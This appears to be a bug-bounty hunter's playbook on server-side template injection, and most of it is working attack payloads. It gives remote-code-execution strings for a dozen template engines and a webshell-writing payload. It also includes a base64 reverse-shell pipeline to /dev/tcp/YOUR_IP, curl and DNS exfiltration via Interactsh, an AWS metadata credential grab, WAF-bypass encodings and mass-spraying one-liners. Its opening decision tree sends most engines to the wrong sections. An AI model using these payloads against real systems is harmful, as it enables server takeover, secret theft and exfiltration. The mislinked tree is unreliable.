


*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [⬅️ Layer 2: Element Testing](../../Element%20Testing%20Checklist.md) | [⬅️ Layer 3: Vulnerability Staging](../../Vulnerability_Staging.md)*

# Server-Side Template Injection (SSTI) : Master Playbook

> **The Mad Libs Analogy**: Template engines are like a game of "Mad Libs." The developer says: "Hello [NAME]!" and the engine fills in the name. SSTI is when you give the engine a name like `[DELETE THE HOUSE]` instead of a person's name, and the engine is so obedient it actually tries to do it.

## 0. Exploit Selection Search Tree



*   **1. Scenario A: Input reflected in a page?**
    *   Target: [[#5.1 The Canary Probes (Arithmetic)]].
*   **2. Scenario B: Using a Java-based engine (FreeMarker, Velocity, Thymeleaf)?**
    *   Target: [[#6.3 Node.js: Pug / Nunjucks / EJS]].
*   **3. Scenario C: Using a Python-based engine (Jinja2, Mako)?**
    *   Target: [[#6.1 Python: Jinja2 / Mako / Tornado (Flask, Django)]].
*   **4. Scenario D: Using a Ruby engine (ERB, Slim)?**
    *   Target: [[#6.2 PHP: Twig / Smarty (Symfony, Laravel)]].
*   **5. Scenario E: Using logic to blind-extract data?**
    *   Target: [[#7. Advanced Blind SSTI Extraction]].
*   **6. Scenario F: Using a JS engine (Handlebars, Pug, DoT)?**
    *   Target: [[#6.4 Java Enterprise: SpEL / FreeMarker / Velocity]].
*   **7. Scenario G: Using a PHP engine (Smarty, Twig)?**
    *   Target: [[#6.5 Ruby: ERB]].

---

## 🧠 1. Why It Happens & Hunter Questions

### 1.1 First Principles
Server-Side Template Injection (SSTI) occurs when an application uses a **Template Engine** (like Jinja2, Twig, or Smarty) to dynamically generate web pages, but allows user input to be part of the template itself rather than just a data variable.

Think of a template like a "Form Letter":
`Hello ${user_name}, welcome back!`

- **Safe (Data Binding)**: The app gives the engine a template and a variable: `user_name = "Alice"`.
- **Vulnerable (String Concatenation)**: The app builds the template string *using* your input physically mixed in: `template = "Hello " + user_input`.
- **Attack**: If you send `${7*7}` as your name, the engine sees `Hello ${7*7}` and evaluates the math, proving you can run code inside the server's "brain."

### 1.2 🕵️ Hunter Questions
*   "Does this site send me customized emails (receipts, welcomes)?"
*   "Can I change my profile name or bio and see it rendered in a specific style?"
*   "Does the site generate PDFs or Invoices based on my input?"
*   "Are there any URL parameters that seem to change the text on the page directly?"

### 1.3 Attack Vector Impact Table
| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Arithmetic Probe** | Tests if the server is "calculating" your input. | `{{7*7}}` results in `49`. | **Confirmed Vulnerability** | P1 |
| **Variable Dumping** | Asks the server to show its internal "memory". | `{{config}}` reveals secrets. | **Critical Info Disclosure** | P1 |
| **OOB Interaction** | Forces the server to "call home" to your machine. | Hit received on OAST. | **Blind SSTI Proof** | P2 - P1 |
| **RCE Execution** | Hijacks the engine to run OS commands. | `id` command returns `root`. | **Full Server Takeover** | P1 |

---

## 🎯 2. Where to Look (Hidden Contexts)

Beyond standard `?id=` and `?name=` parameters, look in these "Elite" injection points:

*   **HTTP Headers**: 
    *   `User-Agent` or `Referer` (if the app displays "Recent Visitors" in an admin dashboard).
    *   `X-Forwarded-For` (if the app logs the IP or location in a rendered template).
*   **File Uploads**: 
    *   Uploaded Filenames: Name your file `{{7*7}}.png`. If the gallery renders the filename, you win.
    *   Exif Metadata: Inject payloads into the "Comment" or "Author" field of a JPG/PNG.
*   **Profile Customization**: 
    *   "Bio", "Status", or "Organization" fields.
*   **Email Templates**: 
    *   Testing "Forgotten Password" or "Invite Friend" features where your input (like a name) is put into an automated email.

---

## 🔬 3. Whitebox Identification (Source Code Review)

Look for instances where the template engine renders a **string** rather than a pre-defined **file**.

*   **Python (Jinja2)**:
    *   **Vulnerable**: `render_template_string(request.args.get('name'))` 🔴
    *   **Safe**: `render_template('profile.html', name=request.args.get('name'))` 🟢
*   **PHP (Twig)**:
    *   **Vulnerable**: `$twig->createTemplate($_GET['name'])->render();` 🔴
*   **Java (FreeMarker)**:
    *   **Vulnerable**: `new Template("name", new StringReader(userInput), cfg)` 🔴

---

## 🛠️ 4. The SSTI Toolbox

| Tool | Command / Syntax | Best For... |
| :--- | :--- | :--- |
| **tplmap** | `tplmap.py -u "http://target.com/page?name=*"` | Automate detection & RCE. |
| **SSTImap** | `sstimap.py -u "http://target.com/page?name=*"` | Modernized fork. |
| **Nuclei** | `nuclei -l urls.txt -tags ssti,dast -dast` | **Elite Automation**: Using templates to find SSTI at scale. |
| **Interactsh** | `interactsh-client` | Out-of-Band (OOB) / DNS Exfiltration. |
| **qsreplace** | `cat urls.txt \| qsreplace "{{7*7}}"` | Mass parameter replacement. |

---

## 🔍 5. Detection & Identification (Triage)

### 5.1 The Canary Probes (Arithmetic)
| Probe | Result | Likely Engine(s) |
| :--- | :--- | :--- |
| `{{7*7}}` | `49` | Jinja2, Twig, Nunjucks, Pug |
| `${7*7}` | `49` | Smarty, Mako, FreeMarker, Velocity, **SpEL** |
| `<%= 7*7 %>` | `49` | ERB (Ruby) |
| `#{7*7}` | `49` | Slim, Pug |
| `@{7*7}` | `49` | Razor (ASP.NET) |

### 5.2 SSTI Multi-Engine Polyglots
Reveal engine name in errors:
*   `${{<%[%'"}}%\.`
*   `${7*7} {{7*7}} <%= 7*7 %>`

### 5.3 Identification Flow


---

## 🚀 6. Engine-Specific Exploitation (RCE Paths)

> **Beginner Narrative**: To execute these payloads, identify the vulnerable parameter (e.g., `?name=`), URL encode the payload using Burp Suite (`Ctrl + U`), and send it. Monitor the HTTP response for the "Success Indicators" listed below.

### 6.1 Python: Jinja2 / Mako / Tornado (Flask, Django)
*   **Config Dump**: `{{ config }}` or `{{ config.items() }}`
    *   *Success Indicator*: Disclosure of `SECRET_KEY`, `DB_PASS`, etc.

*   **Tornado RCE**: `{{ os.popen("id").read() }}`

*   **Cycler Gadget RCE**: `{{ cycler.__init__.__globals__.os.popen('id').read() }}`
    *   *Success Indicator*: `uid=1000(user) gid=1000(user)...`

*   **MRO Chain (The "Nuclear" Option)**:
    ```python
    {{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
    ```
    *   *Success Indicator*: Content of `/etc/passwd`. *(Note: The index `[40]` varies by app. Use Intruder to fuzz from 0-500 until you hit the `Popen` or `FileLoader` class).*

*   **Mako RCE**: `${self.module.cache.util.os.system("id")}`

*   **OOB Exfil**:
    ```python
    {{ cycler.__init__.__globals__.os.popen('curl http://{{INTERACTSH_URL}}/p?u=$(id)').read() }}
    ```

### 6.2 PHP: Twig / Smarty (Symfony, Laravel)
*   **Twig Command Execution**: `{{ system('id') }}` or `{{['id']|filter('system')}}`
*   **Twig File Read / SSRF**: `{{ include('/etc/passwd') }}` or `{{ include('http://attacker.com') }}`
*   **Smarty (v2) RCE**: `{php}system('id');{/php}`
*   **Smarty (Write Webshell)**:
    `{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}`

### 6.3 Node.js: Pug / Nunjucks / EJS
*   **Pug RCE**: `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('id')}()}`
*   **Nunjucks RCE**: `{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}`
*   **EJS RCE**: `<%- global.process.mainModule.require('child_process').execSync('id') %>`

### 6.4 Java Enterprise: SpEL / FreeMarker / Velocity
*   **Spring Expression Language (SpEL)**: `${T(java.lang.Runtime).getRuntime().exec('id')}`
    *   *Success Indicator*: `uid=0(root)` (Standard Java runtime execution).
*   **FreeMarker (Execute API)**: `<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }`
*   **Velocity (Runtime Exec)**:
    ```velocity
    #set($x='')#set($rt=$x.class.forName('java.lang.Runtime'))#set($ex=$rt.getRuntime().exec('id'))
    ```

### 6.5 Ruby: ERB
*   **Direct Execution**: `<%= system('id') %>` or `` `<%= `id` %>` `` (backtick execution)

*   **Popen**: `<%= IO.popen('id').readlines() %>`

### 6.6 ASP.NET: Razor
*   **Razor RCE**: `@System.Diagnostics.Process.Start("cmd.exe","/c whoami")`

*   **Variable Dump**: `@{ var x = 7*7; } @x`

### 6.7 Go: text/template
*   **Data Leak (Dump Structure)**: `{{ . }}` or `{{ .Config }}`
    *   *Hunter Tip*: RCE is extremely rare in Go templates, but leaking environment variables and session secrets is common.

### 6.8 Blind Payloads (Time & Boolean)

**1. Time-Based (Forcing a Hang)**
If output is completely hidden, use these to force the server to legitimately hang for 10 seconds.
*   **Python/Jinja2**: ``
*   **Ruby/ERB**: `<%= sleep 10 %>`
*   **PHP/Smarty**: `{php}sleep(10);{/php}`

**2. Boolean-Based (Conditional)**
If time-based is too noisy and OOB (DNS) is blocked, exfiltrate data character-by-character by observing differences in page rendering.
*   **Jinja2 Config Leak**: `SUCCESS`
    *   *Hunter Tip*: Use Burp Intruder (Cluster Bomb) to iterate through indices and character sets to dump strings blindly.

---

## ☠️ 7. Post-Exploitation (Shells & SSRF)

### 7.1 Reverse Shell Pipeline
Once you verify RCE (e.g., `id` works), escalate it to a fully interactive shell. Because template syntax breaks on complex quotes and pipes, encode your reverse shell payload in Base64.

**The Pipeline:**
1. Generate the shell: `echo "bash -i >& /dev/tcp/YOUR_IP/1337 0>&1" | base64`
2. Inject into the payload structure:
   `echo <BASE64_STRING> | base64 -d | bash`
3. Execute via SSTI (Example in Twig):
   ```twig
   {{['echo YmFzaCAtaSA... | base64 -d | bash']|filter('system')}}
   ```

### 7.2 Cloud Metadata Access (SSRF Pivot)
If the server strictly blocks outbound reverse shells but allows internal HTTP requests, pivot to attack the cloud infrastructure (AWS/GCP/Azure).
*   **AWS Metadata via Jinja2**: 
    `{{ cycler.__init__.__globals__.os.popen('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/').read() }}`

---

## 🛡️ 8. Advanced WAF Bypasses & DNS Exfil

When WAFs block your standard `{{...}}` payloads, you need to break the signatures.

### 8.1 Filter Evasion (Keywords & Symbols)
*   **Underscore Bypass (Jinja2)**: Use Hex encoding if `_` is blocked.
    *   Instead of `__class__`, use `\x5f\x5fclass\x5f\x5f`.
    *   Example: `request|attr("\x5f\x5fclass\x5f\x5f")`

*   **Dot Bypass (Jinja2/Twig)**: Use bracket notation if `.` is blocked.
    *   Instead of `request.class`, use `request['__class__']`.
    *   Example: `{{ _self|attr('env') }}`

*   **Quote Bypass**: Use `request.args` to fetch strings from other parameters to avoid putting quotes directly in the injection.
    *   Payload: `?a={{system(request.args.cmd)}}&cmd=id`

*   **Hex/Unicode encoding**: Encode template delimiters.
    *   `{%25 7*7 %25}` (Bypasses naive regex looking for exact `{{` matches).

*   **String Concatenation (Blacklist Bypass)**: Break up blacklisted words (like `class` or `system`) using engine-specific string concatenation.
    *   **Jinja2 (`+`)**: `request['__cl'+'ass__']`
    *   **Twig (`~`)**: `['sys'~'tem']`

### 8.2 Sandbox Escapes
*   **Jinja2 Subclassing**: If standard functions like `os.popen` are removed from the environment (sandboxed), iterate through the `__subclasses__()` array to find high-impact classes that the developer forgot to restrict, like `subprocess.Popen` or `FileLoader`.

### 8.3 DNS Exfiltration (VPC Bypass)
If outbound HTTP is blocked, leak data via DNS queries.

*   **Payload (Jinja2)**: `{{ cycler.__init__.__globals__.os.popen('ping $(id\|base64).your-interactsh.com').read() }}`

*   **Why?**: Firewalls almost always allow port 53 (DNS) for internal lookups. Check your logs for the incoming subdomain request.

---

## 📱 9. Client-Side Template Injection (CSTI)

> **Watch Out**: If the symbols `{{7*7}}` appear in the `view-source:`, but the page shows `49`, it is likely running in the **user's browser** (Vue/Angular) executing JavaScript, not on the backend server. Read more in [[DOM-Based & Client-Side Logic [MASTER].md]]].
> **Impact**: CSTI inherently results in **Cross-Site Scripting (XSS)**. Once confirmed, pivot your mindset to XSS exfiltration strategies.

*   **AngularJS (Classic)**: `{{constructor.constructor('alert(1)')()}}`

*   **Vue.js (v2)**: `{{_c.constructor('alert(1)')()}}`

*   **Vue.js (v3)**: `{{$emit.constructor('alert(1)')()}}`

*   **Mavo**: `[7*7]` or `[self.alert(1)]`

---

## ⚡ 10. High-Speed Automation Pipeline

Fire these one-liners to find SSTI across entire subdomains.

### 10.1 Scaling Detection (Spraying)
```bash
# 1. Gather URLs
cat live_subs.txt | waybackurls > urls.txt

# 2. Spray Polyglots and match for "49"
cat urls.txt | qsreplace "{{7*7}}" | httpx -match-string "49" -status-code

# 3. Detect Blind SSTI (OOB)
cat urls.txt | qsreplace "{{cycler.__init__.__globals__.os.popen('curl {{INTERACTSH_URL}}').read()}}" | httpx -silent
```

---

## 📖 11. War Stories & Real-World Context

*   **Customizable 404 Pages**: Developers often include the "Page Not Found: /your/input" in the 404 template. If they use `.render()` improperly, your path string becomes the exploit payload.
*   **Email Marketing Suites**: Many "Enterprise" email tools allow "Merge Tags". If you can find a way to inject your own merge tags into a "Preview Email" feature, you hit the server context.
*   **Orange Tsai vs. Uber**: One of the most famous SSTI bugs involved finding a Jinja2 RCE on an Uber subdomain via a customizable profile field. **Takeaway**: Profile customization is the #1 place to look for stored SSTI.

---

## 🔗 Resources
*   [PortSwigger SSTI Masterclass](https://portswigger.net/web-security/server-side-template-injection)
*   [PayloadsAllTheThings - SSTI Comprehensive](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
*   [HackTricks - SSTI Guide](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [⬅️ Layer 2: Element Testing](../../Element%20Testing%20Checklist.md) | [⬅️ Layer 3: Vulnerability Staging](../../Vulnerability_Staging.md)*
